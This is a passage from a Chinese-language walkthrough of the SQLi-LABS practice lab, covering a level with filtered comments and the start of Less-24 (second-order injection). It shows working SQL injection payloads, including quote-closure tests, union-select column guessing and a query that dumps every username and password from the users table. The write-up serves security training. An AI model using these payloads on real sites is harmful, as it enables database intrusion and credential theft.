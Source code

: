
+ 代码对我们的payload进行了处理。这里不能使用MySQL的注释。我们可以使用闭合SQL语句。

```sql
# 正常返回数据
?id=1'+and+'1'='1
# 返回空数据
?id=1'+and+'2'='1
```

+ 猜字段，因为不能使用`order by`关键字，我们就只能使用`union select null,...`语句来猜测数据。

```sql
# 我们可以发现返回的数据中只有两个地方会进行变化，我们就可以先从两个null开始。
?id='+union+select+null,null' # The used SELECT statements have a different number of columns
?id='+union+select+null,null,null' # 正确
```

+ 接下来我们就需要获取所有数据。

```sql
?id='union+select+1,(select+group_concat(username)+from+users),(select+group_concat(password)+from+users)'
```

![image-20211025194230601](../../images/SQLi-LABS/image-20211025194230601.png)

## Less-24 二级注射

+ 打开题目页面会返回一个登录表单，我们尝试使用`admin`账号进行登录，登录后会进入一个修改密码页面。
+ 在登录页面测试以后发现有过滤规则，这时候我们就需要使用查看源代码。
+ 在该题目目录下发现有下列文件：
